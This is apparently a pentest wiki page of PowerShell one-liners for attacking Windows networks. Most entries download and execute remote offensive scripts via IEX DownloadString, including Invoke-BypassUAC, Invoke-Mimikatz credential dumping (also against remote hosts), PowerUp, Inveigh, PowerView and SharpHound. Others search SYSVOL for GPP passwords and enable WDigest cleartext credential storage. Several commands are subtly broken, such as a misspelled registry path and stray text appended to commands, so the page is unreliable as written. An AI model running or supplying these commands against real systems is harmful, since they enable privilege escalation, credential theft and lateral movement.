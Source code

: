 ```yaml
---
description: Collection of PowerShell one-liners to use at various stages of testing.
---
```


# One-liners

### Upgrade to usable shell

```bash
which python
```

```bash
# Depending which python version
python -c 'import pty; pty.spawn("/bin/bash")' upgrade shell

python3 -c 'import pty; pty.spawn("/bin/bash")' upgrade shell
```

### Invoke-BypassUAC and start PowerShell prompt as Administrator \[Or replace to run any other command] <a href="#invoke-bypassuac-and-start-powershell-prompt-as-administrator-or-replace-to-run-any-other-command" id="invoke-bypassuac-and-start-powershell-prompt-as-administrator-or-replace-to-run-any-other-command"></a>

```powershell
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-BypassUAC.ps1');Invoke-BypassUAC -Command 'start powershell.exe'"
```

### Invoke-Mimikatz: Dump credentials from memory

```powershell
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"
```

### Import Mimikatz Module to run further commands

```powershell
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')"
```

### Invoke-MassMimikatz: Use to dump creds on remote host

replace $env:computername with target server name(s)\*\*

```powershell
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PewPewPew/Invoke-MassMimikatz.ps1');'$env:COMPUTERNAME'|Invoke-MassMimikatz -Verbose"
```

### PowerUp: Privilege escalation checks

```powershell
powershell.exe -exec Bypass -C “IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1’);Invoke-AllChecks”
```

### Invoke-Inveigh and log output to file

```powershell
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Scripts/Inveigh.ps1');Invoke-Inveigh -ConsoleOutput Y –NBNS Y –mDNS Y  –Proxy Y -LogOutput Y -FileOutput Y"
```

Invoke-ShareFinder and print output to file

```powershell
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1');Invoke-ShareFinder -CheckShareAccess|Out-File -FilePath sharefinder.txt"
```

### Import PowerView Module to run further commands

```powershell
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1')"
```

### Invoke-Bloodhound

```powershell
powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Ingestors/SharpHound.ps1');Invoke-BloodHound"
```

### Find GPP Passwords in SYSVOL

```powershell
findstr /S cpassword $env:logonserver\sysvol\*.xml findstr /S cpassword %logonserver%\sysvol\*.xml (cmd.exe)
```

### Run Powershell prompt as a different user, without loading profile to the machine

replace DOMAIN and USER\*\*

```powershell
runas /user:DOMAIN\USER /noprofile powershell.exe
```

### Insert reg key to enable Wdigest on newer versions of Windows

```powershell
reg add HKLM\SYSTEM\CurrentControlSet\Contro\SecurityProviders\Wdigest /v UseLogonCredential /t Reg_DWORD /d 1
```
